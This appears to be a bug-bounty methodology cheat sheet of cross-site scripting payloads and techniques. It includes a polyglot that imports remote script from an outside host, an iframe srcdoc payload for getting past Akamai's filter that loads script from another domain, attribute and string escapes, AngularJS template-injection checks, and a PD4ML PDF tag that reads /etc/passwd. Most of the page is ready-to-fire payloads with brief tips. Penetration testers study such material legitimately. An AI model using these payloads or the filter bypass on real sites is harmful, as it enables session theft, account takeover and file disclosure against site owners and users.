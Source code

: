 ### XSS all in one
```
JavaScript://%250A/*?'/*\'/*"/*\"/*`/*\`/*%26apos;)/*<!--></Title/</Style/</Script/</textArea/</iFrame/</noScript>\74k<K/contentEditable/autoFocus/OnFocus=/*${/*/;{/**/(import(/https:\\http://X55.is/.source))}//\76-->
```
### XSS ployglot
```
\u0022\u003c%26quot;%26gt;%26lt;"';}};"></ScRipt><svg/oNLoad=confirm(69)>${{7*7}}
```

#### XSS in SVG image 
![image](https://github.com/Sameer484/methodology/assets/110039044/e40a3018-7707-457b-a054-bf3bb3832674)


##### If there is reflected value in the iframe src but akamai blocks it, we can try to bypass it using below payload
````
link=qwe"srcdoc="\u003ce<script%26Tab;src=//dom.xss>\u003ce</script%26Tab;e>

````
![Screenshot from 2023-06-16 18-53-58](https://github.com/Sameer484/methodology/assets/110039044/58c56999-42da-4fcb-a447-b11f9e223984)

#### If you found jinja2 templating engine being used , then see if the double quote is placed when using templating syntax in attribute. If directly {{name}} is being used then we can use "x eventhandler=alert(1)" to execute xss. Using space we can escape the attribute.
````
<input type={{name}}>         ==> vulnerable code
<input type="{{name}}" >      ==> well secure code
````


#### There a small quirk in DOM xss
```
IF you see this code snippet
let a =createElement('div');
a.innerHTML="variable here"
b=sanitize(a);
and add to dom after here

we can execute xss before the sanitize or adding to dom. <img src=x onerror=alert(1)> actually executes before appending to the dom.
```

---
#### Quick tips
- See the reflected value and open inspect element. Search(ctrl+f) for the entered keywords and trace where is it being used.
- If the value is being set to variable , we can escape it and enter javascript
  ````
  var a= "hacked"    //hacked is searched keyword in search bar and it is being assigned here like this.

  we can escape it using
     hacked";alert(2)//
  ````

- If no value are reflected in the response , then test for DOM based XSS. Open DOM Invador and enter the canary value in the search bar or anywhere in the query parameter.
- See if the website is built with Angular js. Now see if the reflected payload is inside the  ng-app directive{\<div ng-app> hacked(this is reflected value)}, check for {{7*7}} CSTI and if DOM is reflected with 49, then it's confirmed that CSTI is possible. 
 
  ---
 - XSS Basic Payload  ( anything'"<x</   )
## XSS in PDF generation using PD4ML library
The normal javascript injection doesn't work with pd4ml, but there is way to add attachment to the pdf. This way we can read internal files.
`<pd4ml:attachment src=”file:///etc/passwd”><pd4ml:attachment>`
